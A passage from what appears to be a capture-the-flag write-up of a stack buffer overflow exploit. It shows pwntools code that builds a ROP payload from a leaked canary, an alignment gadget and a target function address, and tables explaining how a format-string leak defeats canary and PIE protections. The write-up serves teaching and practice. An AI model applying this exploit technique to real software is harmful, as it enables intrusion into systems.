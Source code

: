 ### 4.3 ROP Gadget Discovery

Using pwntools ROP:
```python
rop = ROP(elf)
ret_gadget = rop.find_gadget(['ret'])[0]
```

Common `ret` gadget locations:
- Near function epilogues
- In libc
- Automatically found by ROP tools

### 4.4 Payload Assembly

```python
from pwn import *

offset = b"A" * 24              # Fill to canary
canary_bytes = p64(canary)      # Leaked canary (8 bytes)
fake_rbp = b"B" * 8             # Fake saved RBP (8 bytes)
ret_gadget = p64(ret_addr)      # Alignment gadget (8 bytes)
target = p64(get_streak_addr)   # Target function (8 bytes)

payload = offset + canary_bytes + fake_rbp + ret_gadget + target
```

**Total Payload Size:** 24 + 8 + 8 + 8 + 8 = 56 bytes (well under 512-byte limit)

---

## Phase 5: Why Each Protection Fails

| Protection | Bypass Technique | Why It Works |
|-----------|------------------|--------------|
| **Canary** | Format string leak | Canary value read from stack, then replayed |
| **PIE** | Format string leak | Code address leaked, base calculated |
| **NX** | ROP chain | Use existing code, no shellcode needed |
| **Full RELRO** | Not targeted | Didn't need to modify GOT |

**Key Insight:** Even with all protections, information disclosure (format string) enables bypassing everything else!

---

## Phase 6: Key Learnings

| Concept | Explanation |
|---------|------------|
| **Format String Exploitation** | Read arbitrary stack values to leak secrets |
| **Canary Bypass** | Leak canary, replay it to pass check |
| **PIE Bypass** | Leak code address, calculate base offset |
| **ROP (Return-Oriented Programming)** | Chain existing code gadgets for execution |
| **Stack Alignment** | x86-64 requires 16-byte RSP alignment |
| **Multi-Stage Attacks** | Combine multiple techniques for full exploitation |

---